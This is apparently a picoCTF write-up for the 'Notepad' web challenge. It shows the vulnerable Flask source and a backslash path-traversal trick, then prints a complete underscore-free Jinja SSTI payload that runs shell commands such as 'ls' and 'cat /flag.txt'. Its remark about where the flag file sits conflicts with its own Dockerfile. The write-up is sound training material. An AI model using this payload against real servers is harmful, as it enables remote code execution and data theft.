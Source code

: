 This is my first ever writeup so bare with me haha.

Notepad is a hard level PicoCTF challenge. It's relatively small at least code wise containing an app.py file that is just 22 lines of python, and here they are:

```
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    print(content)
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```


Before anything I want to know where the flag will be stored on the docker container, heres the Dockerfile:

```
# Dockerfile (fixed & pinned for lab testing)
FROM python:3.9.2-slim-buster

# Ensure deterministic output from python processes in containers
ENV PYTHONUNBUFFERED=1

WORKDIR /app

# Install specific (older) versions intentionally:
# - Flask 2.0.3 (compatible with Werkzeug 2.0.x)
# - Werkzeug 2.0.3 (contains url_fix)
# - pin gunicorn to a modern-but-known version
RUN pip install --no-cache-dir "Flask==2.0.3" "werkzeug==2.0.3" "gunicorn==20.1.0"

# Copy app + assets
COPY app.py flag.txt ./
COPY templates templates

# Make sure required dirs exist, set permissions, and rename the flag file to a random name
RUN mkdir -p /app/static /app/templates/errors && \
    chmod -R 775 /app && \
    chmod 1773 /app/static /app/templates/errors && \
    # only rename if flag.txt exists
    if [ -f flag.txt ]; then mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt; fi

# Expose a port (optional, but useful)
EXPOSE 8000

# Fix gunicorn CLI flags: use --user and --group properly and bind to port 8000
CMD ["gunicorn", "-w", "16", "-t", "5", "--graceful-timeout", "0", "--user", "nobody", "--group", "nogroup", "-b", "0.0.0.0:8000", "app:app"]

```

As you can see from 'COPY app.py flag.txt ./' the flag will just be a file in the root directory. From this I assumed this may be an LFI challenge or RCE.


Now, Diving into te code it has some interesting behaviour. The code is made to save notes into a directory static as a .html file, it also saves the file as the first 128 characters of the note along with 8 random characters in the end.
Immediately I attempted a directory traversal as the name of the file is being generated and then passed onto pythons open() function, which takes a filename that can include ../ ... interesting.

Now theres an issue, two characters are filtered out from the notes, that being forward slash '/' and underscores '_'. The underscores will make sense later.
I wanted to see if I could find a way around the filtering and so I looked up the url_fix function from werkzeug. Heres the function:

```
from werkzeug.urls import url_fix

def url_fix_source(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
    it contains unsafe characters like ' ' and so on. This function can fix
    some of the problems in a similar way browsers handle data entered by the
    user:

    >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
    'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

    :param s: the string with the URL to fix.
    :param charset: The target charset for the URL if the url was given as
                    unicode string.
    """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))

```

Something really interesting here is that url_fix converts backslashes to forwardslashes... :)

This was a clear way to bypass the forwardslash filter. 
Now, submitting a note with content '..\test' will write files to the apps main directory. I tested this in a docker file and it worked.
Something I shouldve mentioned earlier is that the app can accept error templates when the notepad exceeds 512 characters of contains bad characters.
The templates are stored in the templates directory within the apps main directory. 
Templates are passed straing into python, interestingly they can execute python code inside curly braces. At this point I was sure this was a SSTI (Server Side Template Injection).
Using the previous directory traversal vulnerability, I am able to place files in the templates/errors directory, which is exactly where python pulls errors from.
Now, to execute the SSTI vulnerability I had to supply 128 random characters to not mess up the name (not entirely sure if this was required but it's more stable).
Here was my original note I submitted as a test:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{ print ('ello?')}}

after submitting this note, the server placed a file with the name 'expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx-TYTVPd8HE3I.html' in the errors directory.
I could then access this file by passing an error parameter with the name of that file to the front page as so:

![](images/Screenshot_20251001_014830.png)

Now, I need to be able to execute system commands, I could just read files but thats boring. Using the regular SSTI oneliner does not work because of the previously mentioned underscore '_' filtering, so we have to get creative.
Using pythons 'attr' function. The only issue is we cant get by with just attr, this is because certain objects have underscores no matter what way you access it. For this we can use the byte representation of underscores in python: \x5f. 
Now, we can get to the __builtins__ object in python which houses __getitem__ which from there you can get to my beloved import function and import os.popen. With this, we have SSTI :D. Heres the full payload:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

for simplicity the SSTI payload is:
request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()

Now you can easily find a payload just like this online or an alternative but doing it myself is more fun and you learn more.
Anyways, after submitting this payload, you can just access it and run system commands, I switch out 'ls' to 'cat /flag.txt' and you can read the flag as so:

![]()

You could also run any command you'd like of course.







